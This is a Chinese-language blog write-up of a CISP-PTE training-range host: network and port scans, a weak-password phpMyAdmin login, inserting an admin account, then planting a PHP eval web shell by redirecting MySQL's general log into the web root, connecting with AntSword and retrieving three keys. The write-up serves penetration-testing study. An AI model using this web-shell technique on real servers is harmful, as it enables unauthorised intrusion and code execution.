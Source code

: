 ```yaml
---
layout: post
title: CISP-PTE host综合
subtitle: CISP-PTE host综合
date: 2025-08-17 08:43
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. 靶场环境

![image.png](https://img.ghostliner.top/daeAAK.png)

## 2. 信息搜集

**网段扫描**

```shell
namp -sn 192.168.163.0/24
```

发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/ez0Fj4.png)

**端口扫描**

```shell
nmap -T5 -sS -p- 192.168.163.133
```

发现 80 端口

![image.png](https://img.ghostliner.top/2JBI0K.png)

### 2.1. 站点测试

**访问站点**

![image.png](https://img.ghostliner.top/C8byzv.png)

尝试弱密码登陆失败

**站点扫描**

![image.png](https://img.ghostliner.top/FyhiK5.png)

发现phpmyadmin 登录页面

![image.png](https://img.ghostliner.top/RztLkB.png)

尝试弱密码登录，使用 root:password 登录成功

**版本信息**：

![image.png](https://img.ghostliner.top/GGH4Js.png)

**数据库列表**：

![image.png](https://img.ghostliner.top/OIo6HY.png)

发现 `picture_store` 和 `picture_system` 两个数据库表相同，且都有admin 用户信息

![image.png](https://img.ghostliner.top/2hRoor.png)

admin 密码： `77ad15e68545d32e51bb61ec3325cfda`，尝试MD5 解码失败 hhxxttxs

**思路**：
1. 疑似为 MD5，可以两个数据库都创建新用户，密码使用 MD5 编码，尝试登录
2. 使用 phpMyadmin 先 getshell 后查看登录代码

![image.png](https://img.ghostliner.top/zks6ij.png)

创建用户名：hack，密码： `e10adc3949ba59abbe56e057f20f883e`

![image.png](https://img.ghostliner.top/bPJon9.png)

![image.png](https://img.ghostliner.top/d6ukWw.png)

登录成功，发现key1

![image.png](https://img.ghostliner.top/QZQJnI.png)

F12 查看key1

![image.png](https://img.ghostliner.top/xh4yZQ.png)
## 3. getshell

### 3.1. `INTO OUTFILE`  getshell

查看权限

```sql
show global variables like '%priv%';
show global variables like '%general_log%';
```

![image.png](https://img.ghostliner.top/mvrUvq.png)

`secure_file_priv` 显示NULL，说明无权限使用 `INTO OUTFILE`，会报错：

![image.png](https://img.ghostliner.top/Ykin4g.png)

### 3.2. 日志getshell

查看日志配置

```sql
show global variables like "general_log%";
```

![image.png](https://img.ghostliner.top/knKwFf.png)

更改日志配置

```sql
set global general_log="ON";
set global general_log_file="d:/phpstudy/www/hack.php";
show global variables like "general_log%";
```

修改成功：

![image.png](https://img.ghostliner.top/fO4O5c.png)

注入一句话木马

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>';
```

![image.png](https://img.ghostliner.top/V3ANoJ.png)

访问 `/hack.php?a=PHP info();`，成功执行代码

![image.png](https://img.ghostliner.top/fqQ07n.png)

蚁剑连接

![image.png](https://img.ghostliner.top/PirWj9.png)

查看当前用户为 `system`

![image.png](https://img.ghostliner.top/Nyqsd6.png)

查看登录代码，确定是 MD5 编码

![image.png](https://img.ghostliner.top/Zc1h7Q.png)

查找key 文件

```batch
for /r "d:\" %i in (key*.*) do echo %i
```

发现 `d:\phpStudy\WWW\images\key2.txt`

![image.png](https://img.ghostliner.top/68xoWh.png)

查看文件内容，获取key2

![image.png](https://img.ghostliner.top/zRbram.png)

查看回收站，在C 盘回收站发现key3

![image.png](https://img.ghostliner.top/sPWhPa.png)

![image.png](https://img.ghostliner.top/CIHVug.png)

